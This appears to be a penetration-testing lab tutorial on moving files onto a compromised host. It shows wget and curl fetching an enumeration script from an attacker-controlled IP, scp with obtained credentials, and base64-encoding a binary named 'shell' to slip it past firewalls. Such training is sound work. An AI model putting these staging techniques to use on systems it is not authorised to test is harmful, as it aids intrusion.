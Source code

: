 
Transferring Files

During any penetration testing exercise, it is likely that we will need to transfer files to the remote server, such as enumeration scripts or exploits, or transfer data back to our attack host. While tools like Metasploit with a Meterpreter shell allow us to use the Upload command to upload a file, we need to learn methods to transfer files with a standard reverse shell.
Using wget

There are many methods to accomplish this. One method is running a Python HTTP server on our machine and then using wget or cURL to download the file on the remote host. First, we go into the directory that contains the file we need to transfer and run a Python HTTP server in it:
Transferring Files

kappajester83@htb[/htb]$ cd /tmp
kappajester83@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

Now that we have set up a listening server on our machine, we can download the file on the remote host that we have code execution on:
Transferring Files

user@remotehost$ wget http://10.10.14.1:8000/linenum.sh

...SNIP...
Saving to: 'linenum.sh'

linenum.sh 100%[==============================================>] 144.86K  --.-KB/s    in 0.02s

2021-02-08 18:09:19 (8.16 MB/s) - 'linenum.sh' saved [14337/14337]

Note that we used our IP 10.10.14.1 and the port our Python server runs on 8000. If the remote server does not have wget, we can use cURL to download the file:
Transferring Files

user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh

100  144k  100  144k    0     0  176k      0 --:--:-- --:--:-- --:--:-- 176k

Note that we used the -o flag to specify the output file name.
Using SCP

Another method to transfer files would be using scp, granted we have obtained ssh user credentials on the remote host. We can do so as follows:
Transferring Files

kappajester83@htb[/htb]$ scp linenum.sh user@remotehost:/tmp/linenum.sh

user@remotehost's password: *********
linenum.sh

Note that we specified the local file name after scp, and the remote directory will be saved to after the :.
Using Base64

In some cases, we may not be able to transfer the file. For example, the remote host may have firewall protections that prevent us from downloading a file from our machine. In this type of situation, we can use a simple trick to base64 encode the file into base64 format, and then we can paste the base64 string on the remote server and decode it. For example, if we wanted to transfer a binary file called shell, we can base64 encode it as follows:
Transferring Files

kappajester83@htb[/htb]$ base64 shell -w 0

f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU

Now, we can copy this base64 string, go to the remote host, and use base64 -d to decode it, and pipe the output into a file:
Transferring Files

user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell

Validating File Transfers

To validate the format of a file, we can run the file command on it:
Transferring Files

user@remotehost$ file shell
shell: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header

As we can see, when we run the file command on the shell file, it says that it is an ELF binary, meaning that we successfully transferred it. To ensure that we did not mess up the file during the encoding/decoding process, we can check its md5 hash. On our machine, we can run md5sum on it:
Transferring Files

kappajester83@htb[/htb]$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell

Now, we can go to the remote server and run the same command on the file we transferred:
Transferring Files

user@remotehost$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell

As we can see, both files have the same md5 hash, meaning the file was transferred correctly. There are various other methods for transferring files. You can check out the File Transfers module for a more detailed study on transferring files.

